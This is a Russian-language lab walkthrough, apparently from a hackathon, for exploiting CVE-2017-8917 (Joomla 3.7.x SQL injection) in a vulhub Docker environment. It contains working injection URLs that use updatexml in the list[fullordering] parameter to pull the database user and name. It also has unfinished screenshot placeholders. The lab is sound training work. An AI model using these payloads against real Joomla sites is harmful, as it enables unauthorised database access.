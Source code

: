 # CVE-2017-8917

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917)
* [https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html](https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html)
* [https://www.programmersought.com/article/11485914091/](https://www.programmersought.com/article/11485914091/)

Joomla! — система управления содержимым (CMS), написанная на языках PHP и JavaScript, использующая в качестве хранилища базы данных СУБД MySQL или другие стандартные промышленные реляционные СУБД.

Уязвимость SQL-инъекций в Joomla! 3.7.x до версии 3.7.1 позволяет злоумышленникам выполнять произвольные SQL-команды через неопределенные векторы.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/joomla/CVE-2017-8917

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна домашняя страница Joomla!

\---- скрин веб ----

Для реализации уязвимости перейдите по данной ссылке, перед этим заменив "ваш-ip" на ip машины с уязвимой средой:

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```

\---- скрин ----

Также вы можете узнать название базы данных, заменив "user" на "database" в ссылке

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,database()),1)
```

\---- скрин ----

вазух

\---- скрин вазух ----
